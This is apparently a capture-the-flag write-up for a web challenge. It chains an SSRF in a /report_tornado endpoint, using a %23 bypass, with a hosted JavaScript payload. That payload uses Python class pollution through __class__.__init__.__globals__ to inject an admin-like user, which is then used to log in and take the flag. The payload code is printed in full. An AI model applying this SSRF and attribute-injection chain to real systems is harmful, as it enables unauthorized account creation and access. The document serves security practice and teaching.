 #### Key Observations

- Recursively updates tornado attributes.
- Potential for arbitrary attribute injection.

---

## Exploitation Steps

### 1. SSRF Exploit

- Use `/report_tornado` with a crafted `ip` parameter.
- Bypass `/agent_details` appending `%23` (URL-encoded `#`).
- Example: `http://<vulnerable-server>/report_tornado?ip=<malicious-server>%23`.

### 2. Inject Malicious JavaScript

- Host an HTML page containing:

```html
<script>
fetch('http://127.0.0.1:50866/get_tornados')
    .then(response => response.json())
    .then(machines => {
        let firstMachine = machines[0].machine_id;
        let json = {
            "machine_id": firstMachine,
            "status": "active",
            "__class__": {
                "__init__": {
                    "__globals__": {
                        "USERS": [{"username": "kittykat", "password": "kittykat"}]
                    }
                }
            }
        };

        return fetch(`http://127.0.0.1:50866/update_tornado`, {
            method: "POST",
            mode: "cors",
            body: JSON.stringify(json)
        });
    });
</script>
```

- Executes on Selenium client and injects a new user (`kittykat`).

### 3. Log In and Retrieve Flag

- Use credentials `kittykat/kittykat` to log in.
- Access `/stats` to retrieve the flag
